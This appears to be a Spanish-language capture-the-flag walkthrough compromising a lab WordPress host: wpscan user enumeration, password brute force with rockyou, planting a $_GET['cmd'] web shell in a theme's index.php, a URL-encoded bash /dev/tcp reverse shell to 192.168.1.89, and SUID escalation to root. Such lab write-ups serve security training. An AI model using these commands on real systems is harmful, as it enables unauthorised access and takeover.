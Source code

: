 kali
Port: 80

- Vamos a ver la pagina web.
- No encontramos nada, vamos a hacer Fuzzing web.

![](../Imagenes/Pasted%20image%2020250310173234.png)

- Encontramos un wordpress, vamos a ver que encontramos ahí.

![](../Imagenes/Pasted%20image%2020250310173421.png)

- Investigando encontramos un login web de wordpress.

![](../Imagenes/Pasted%20image%2020250310173455.png)

- Vamos a usar wpscam para encontrar información importante.
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```
- Encontramos un usuario

![](../Imagenes/Pasted%20image%2020250310173820.png)

- Vamos a hacer fuerza bruta con wpscan´.
```
wpscan --url http://172.17.0.2/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames mario

```


![](../Imagenes/Pasted%20image%2020250310174132.png)

- Ya tenemos la contraseña y ya estamos dentro.

![](../Imagenes/Pasted%20image%2020250310174157.png)

- Ahora lo que tenemos que ver es si podemos subir un archivo con una reverse o editar un archivo ya creado para ingresar una reverse.
- Nos vamos a apariencia > Theme Code Editor y configuramos el código de index.php

![](../Imagenes/Pasted%20image%2020250310175319.png)

- ==$_GET['cmd']== ---->  Variable superglobal en PHP que recoge datos enviados a través de la URL usando el método GET.
- Si en la URL ponemos un comando, este lo vamos a reconocer, vamos a agregar el comando id.
```

http:://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```


![](../Imagenes/Pasted%20image%2020250310175839.png)

- Si agregamos otro código como whoami, también nos saldra una salida.

![](../Imagenes/Pasted%20image%2020250310175920.png)
- Aquí es donde vamos a poner nuestra reverse
```
172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "sh -i >%26 /dev/tcp/192.168.1.89/444 0>%261"
```
- Es importante que recordar que cuando escribimos la shell en la URL las "&" se cambian por "%26".

![](../Imagenes/Pasted%20image%2020250310180225.png)

- Hacemos la TTY.
- No podemos escalar por sudo -l , Vamos a tener que hacerlo por SUID.

![](../Imagenes/Pasted%20image%2020250310180641.png)

- Ya somos root.